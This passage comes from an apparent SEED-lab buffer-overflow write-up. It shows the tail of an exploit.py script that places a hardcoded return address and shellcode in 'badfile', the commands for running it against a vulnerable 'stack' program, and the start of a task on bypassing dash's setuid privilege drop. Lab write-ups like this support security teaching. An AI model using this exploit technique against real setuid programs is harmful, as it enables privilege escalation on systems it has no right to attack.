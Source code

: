 ```python
# Replace 0xFF with the correct value 
content[D+0] = 0xa0   # fill in the 1st byte (least significant byte) 
content[D+1] = 0xea   # fill in the 2nd byte 
content[D+2] = 0xff   # fill in the 3rd byte
content[D+3] = 0xbf   # fill in the 4th byte (most significant byte)
#########################################################################

# Put the shellcode at the end
start = 517 - len(shellcode) 
content[start:] = shellcode 

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
```

Have a try:

```bash
python3 exploit.py
./stack
```

### 001 Task 3 Defeating dash’s Countermeasure

The change in dash:

```c
// https://launchpadlibrarian.net/240241543/dash_0.5.8-2.1ubuntu2.diff.gz
++  uid = getuid();
++  gid = getgid();

+-  /*
+-   * To limit bogus system(3) or popen(3) calls in setuid binaries, require
+-   * -p flag to work in this situation.
+-   */
+-  if (!pflag && (uid != geteuid() || gid != getegid())) {
+-      setuid(uid);
+-      setgid(gid);
+-      /* PS1 might need to be changed accordingly. */
+-      choose_ps1();
+-  }
```

Let's bypass it with the help of `setuid`. Firstly reset the environment:

```bash
sudo rm /bin/sh
sudo ln -s /bin/dash /bin/sh
```

Now we get a non-root shell:

![Screen Shot 2018-11-25 at 7.00.46 PM.png]({{ site.url }}/images/seed/1B3DAC8B0FC67A68698744CB800C65FA.png)
